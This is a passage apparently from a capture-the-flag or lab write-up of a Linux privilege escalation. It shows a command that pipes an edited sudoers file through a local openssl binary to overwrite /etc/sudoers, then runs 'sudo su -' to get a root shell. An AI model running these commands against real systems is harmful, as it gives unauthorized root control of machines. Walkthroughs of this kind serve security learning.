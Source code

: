 Now write this file back to sudoers:

```bash
cat sudoers | ./openssl enc -out "/etc/sudoers"
```

Now let’s see if we can switch to root:

```bash
sudo su -
```

We are now root.

![image.png]({{ site.baseurl }}/assets/lightweight/image%2011.png)